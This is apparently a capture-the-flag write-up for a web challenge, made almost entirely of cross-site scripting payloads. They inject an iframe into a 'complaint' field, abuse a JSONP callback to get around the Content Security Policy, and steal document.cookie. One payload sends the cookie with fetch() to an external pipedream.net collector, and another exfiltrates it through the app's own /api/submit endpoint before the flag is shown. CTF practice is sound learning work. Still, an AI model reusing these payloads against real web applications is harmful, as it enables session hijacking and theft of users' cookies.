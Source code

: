 ```json
{"complaint":"<iframe src='http://127.0.0.1:1337/list?callback=alert(1)%3bdisplay'></iframe>"}
```

```js
fetch("https://eny9my3bovulxfd.m.pipedream.net/?f="+document.cookie[0])
```

```json
{"complaint":"<iframe src='http://127.0.0.1:1337/list?callback=fetch(\"https://eny9my3bovulxfd.m.pipedream.net/?f=${document.cookie[0]}\")%3bdisplay'></iframe>"}
```
Doesnt work because of CSP

```js
fetch("/api/submit", {method:"POST",body: JSON.stringify({complaint: document.cookie[0]}), headers: {'Content-Type': 'application/json'}})
```

```json
{"complaint":"<iframe src='http://127.0.0.1:1337/list?callback=fetch(\"/api/submit\", {method:\"POST\",body: JSON.stringify({complaint: document.cookie}), headers: {\"Content-Type\": \"application/json\"}})%3bdisplay'></iframe>"}
```

`CHTB{CSP_4nd_Js0np_d0_n0t_alw4ys_g3t_al0ng}`

